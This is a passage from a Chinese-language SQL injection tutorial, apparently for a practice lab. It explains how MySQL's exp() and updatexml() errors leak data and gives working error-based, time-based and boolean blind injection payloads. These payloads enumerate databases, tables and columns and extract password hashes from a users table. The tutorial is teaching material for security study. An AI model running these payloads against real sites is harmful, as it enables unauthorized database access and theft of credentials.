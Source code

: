 每个一个报错语句都有它的原理：  

exp() 报错的原理：exp 是一个数学函数，取 e 的 x 次方，当我们输入的值大于 709 就会报错，然后 ~ 取反它的值总会大于 709，所以报错。

updatexml() 报错的原理：由于 updatexml 的第二个参数需要 Xpath 格式的字符串，以 ~ 开头的内容不是 xml 格式的语法，concat() 函数为字符串连接函数显然不符合规则，但是会将括号内的执行结果以错误的形式报出，这样就可以实现报错注入了。

```
爆库：?id=1' and updatexml(1,(select concat(0x7e,(schema_name),0x7e) from information_schema.schemata limit 2,1),1) -- +
爆表：?id=1' and updatexml(1,(select concat(0x7e,(table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +
爆字段：?id=1' and updatexml(1,(select concat(0x7e,(column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +
爆数据：?id=1' and updatexml(1,(select concat(0x7e,password,0x7e) from users limit 1,1),1) -- +

#concat 也可以放在外面 updatexml(1,concat(0x7e,(select password from users limit 1,1),0x7e),1)
```

这里需要注意的是它加了连接字符，导致数据中的 md5 只能爆出 31 位，这里可以用分割函数分割出来：

```
substr(string string,num start,num length);
#string为字符串,start为起始位置,length为长度

?id=1' and updatexml(1,concat(0x7e, substr((select password from users limit 1,1),1,16),0x7e),1) -- +
```

#### 1.3 盲注

#### 1.3.1 时间盲注

时间盲注也叫延时注入 一般用到函数 sleep() BENCHMARK() 还可以使用笛卡尔积 (尽量不要使用, 内容太多会很慢很慢)

一般时间盲注我们还需要使用条件判断函数

```
#if（expre1，expre2，expre3）
当 expre1 为 true 时，返回 expre2，false 时，返回 expre3

#盲注的同时也配合着 mysql 提供的分割函
substr、substring、left
```

我们一般喜欢把分割的函数编码一下，当然不编码也行，编码的好处就是可以不用引号，常用到的就有 ascii() hex() 等等

```
?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5))--+
?id=1' and if((substr((select user()),1,1)='r'),sleep(5),1)--+
```

```
?id=1' and substr((select user()),1,1)='r' -- +
?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +
#如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值

?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
#若所有的字符串均相同，STRCMP() 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 1
```
